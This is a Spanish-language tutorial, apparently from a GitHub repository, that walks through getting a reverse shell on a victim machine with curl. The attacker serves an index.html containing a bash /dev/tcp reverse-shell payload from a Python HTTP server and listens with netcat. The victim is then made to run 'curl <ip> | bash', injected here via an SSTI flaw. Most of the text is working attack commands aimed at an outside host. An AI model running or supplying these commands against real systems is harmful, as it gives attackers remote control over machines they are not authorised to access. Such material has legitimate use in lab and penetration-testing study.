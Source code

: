 # Como establecer una reverse Shell con el comando Curl

En este artículo vamos a ver como establecer una `reverse shell` mediante una petición con `Curl`.

## ¿Qué es Curl?

Curl es un herramienta cuya finalidad es transferir datos a través de una URL. Es un comando disponible en la mayoría de los
sistemas basados en Unix. Es una abreviatura de `Client URL`. Los comandos de Curl están diseñados para funcionar como una forma
de verificar la conectividad a las URL y como una gran herramienta para transferir datos.

![Captura de pantalla 2022-07-21 225432](https://user-images.githubusercontent.com/103068924/180313605-edaba56e-d31d-4c74-bf50-4db5bfa3b27e.png)

* Información más detallada del funcionamiento de Curl --> <a href='https://www.hostinger.es/tutoriales/comando-curl' style="text-decoration:none">Link</a>

# Ejecución:

Para realizar esta opeción lo primero que debemos comprobar es que podamos realizar la petición desde el equipo victima y que este tenga Curl instalado.
Una vez tenemos esto solucionado vamos a ver el funcionamiento de manera básica.

Cuando realizamos una petición con Curl desde la máquina victima:

   curl [Ip de Escucha]
   
   curl 10.10.14.25
   
Y nosotros nos ponemos en escucha desde nuestra terminal, utilizando un servicio http montado con python3 por el puerto 80:

   sudo python3 -m http.server 80

El funcionamiento es el siguiente, cuando Curl realiza una petición a nuestro equipo, estamos realizando una perticion a `http` tratando de conseguir
un `Index.html` (Para poder interpretar la página), aquí es donde viene la trampa.

Lo que nosotros vamos hacer es crear nuestro propio archivo `index.html`, de forma que por dentro tenga los comandos para establecer una reverse shell con bash.
De esta manera cuando realicemos la petición por Curl y le ordenemos ejecutarlo con bash se nos abrira la reverse shell que hayamos establecido.

El archivo `index.html` debe guardarse en el mismo directorio desde donde utilicemos el servicio http. 

# Ejemplo Practico:

Vamos a necesitar tres terminales, una desde donde realizar la petición por Curl desde el equipo victima, una segunda donde utilizaremos el servicio http para 
compartir el archivo `index.html` y una tercera donde nos pondremos en escucha con `netcat` (Aquí recibiremos la reverse shell).

Lo primero que vamos hacer es preparar nuestro archivo `index.html`, creamos una carpeta llamada `shell` independiente para que nos sea más facil:

    sudo mkdit shell
    
    cd shell

Ahora creamos y definimos nuestro archivo `index.html`:

   sudo nano index.html
   
Copiamos y pegamos el siguiente código:

```
#!/bin/bash

bash -i >& /dev/tcp/[Vuestra Ip]/[Puesto de escucha de NetCat] 0>&1

```

Debería de quedar algo así:

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.25/443 0>&1
```

Una vez copiado con vuestros datos, guardais (Ctrl x O) y salis (Ctrl + X).

Bien ya tenemos nuestra reverse shell en bash preparada y apuntado al pueto 443. Ahora desde la misma terminal y permaneciendo en el directorio que contenga
el archvio que acabamos de crear vamos a ejecutar el servicio http con python3 para poder compartir el archivo `index.html`.

    sudo python3 -m http.server 80
    
Abrimos nuestra segunda terminal y ponemos a `Netcat` en escucha por el puerto 443:

    sudo nc -lvnp 443
    
Ya tenemos nuestro puerto preparado para recibir la reversehe shell.
    
Finalmente nos dirigimos a la terminal donde estemos en contacto con la victima, es este ejemplo realizare la petición utilizando BurpSuite ejecutando el comando
dentro de un SSTI. Pero básicamente, lo que debemos es realizar la siguiente petición desde el equipo victima:

    curl 10.10.14.25 | bash
    
* `Curl` : Realizara la petición y copiara el archivo index.html desde nuestro servidor creado en python3.
* `bash` : Ordena la ejecución o interpretación del comando definido dentro del archivo, en nuestro caso, estblecer una reverse shell por el puertop 443.

![Captura de pantalla 2022-07-21 231821](https://user-images.githubusercontent.com/103068924/180316903-81849cbf-96b0-4de3-a9f4-c7e0ab2e6610.png)

![Captura de pantalla 2022-07-21 231506](https://user-images.githubusercontent.com/103068924/180316657-1d03c885-ca4e-41b2-b55d-23f1a8e55b59.png)

Como podeís ver el comando Curl esta dentro de la injeccion SSTI, de tal forma que ya solo quedaria enviar la petición.

Tras ejecutar este ultimo comando se nos tendría que haber abierto una shell en la terminal por la que estabamos en ecucha con NetCat.



